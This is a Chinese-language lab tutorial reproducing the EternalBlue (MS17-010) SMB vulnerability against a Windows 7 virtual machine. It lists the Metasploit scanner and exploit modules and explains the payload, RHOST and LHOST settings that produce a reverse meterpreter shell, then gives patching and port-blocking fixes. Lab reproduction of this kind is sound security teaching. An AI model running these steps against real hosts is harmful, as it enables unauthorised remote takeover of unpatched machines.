## 一：漏洞简介
#### 1.漏洞描述：
永恒之蓝通过TCP端口445和139来利用远程代码执行漏洞，恶意代码会扫描开放445文件共享端口的Windows机器，无需用户任何操作，只要开机上网，不法分子就能在电脑和服务器中植入勒索软件、远程控制木马、虚拟货币挖矿机等恶意程序。
#### 2.漏洞影响：
目前已知受影响的 Windows 版本包括但不限于：Windows NT，Windows 2000、Windows XP、Windows 2003、Windows Vista、Windows 7、Windows 8，Windows 2008、Windows 2008 R2、Windows Server 2012 SP0。普遍得很，只要不做相应防护措施，就容易中招。。。

## 二：漏洞复现
#### 1：环境准备
攻击机： Kali         IP：192.168.88.129

靶机： windows7  　　　IP：192.168.88.131

#### 2：信息收集
metasploit启动，这里使用nmap扫描端口：


该有的端口都开了，可以尝试使用ms17-010（永恒之蓝）来攻击。
#### 3.尝试攻击
##### （1）查看漏洞模块——search ms17-010

##### （2）先使用辅助扫描模块测试 use auxiliary/scanner/smb/smb_ms17_010
扫描结果显示该主机很容易受到ms17-010的攻击

##### （3）再使用攻击模块进行攻击 use exploit/windows/smb/ms17_010_eternalblue


set payload ：设置payload
show options ：列出使用当前模块所需呀配置的参数
set RHOST ：设置要攻击的目标主机地址
set LHOST ：设置攻击机的地址，使目标主机回连至攻击机
set LPORT ：设置目标主机回连至攻击机的端口，默认为4444
run：开始攻击
攻击成功后攻击机和目标主机之间会建立一个连接，得到一个meterpreter会话

自上而下解释一下：
###### ①：表示永恒之蓝覆盖成功完成
###### ②：目标主机和攻击机建立了一个shell连接，会话为session 1
###### ③：得到一个meterpreter会话，尝试获取shell成功
###### ④：在meterpreter会话下输入whoami就能获得目标主机的信息
查看ip：

查看文件：


## 三：漏洞修复
#### 1、下载补丁地址 
http://www.catalog.update.microsoft.com/search.aspx?q=补丁编号 
（根据自己的系统版本在上图中查找补丁编号，如：http://www.catalog.update.microsoft.com/search.aspx?q=Windows） 
#### 2、添加入站规则
关闭445、135、137、138、139端口
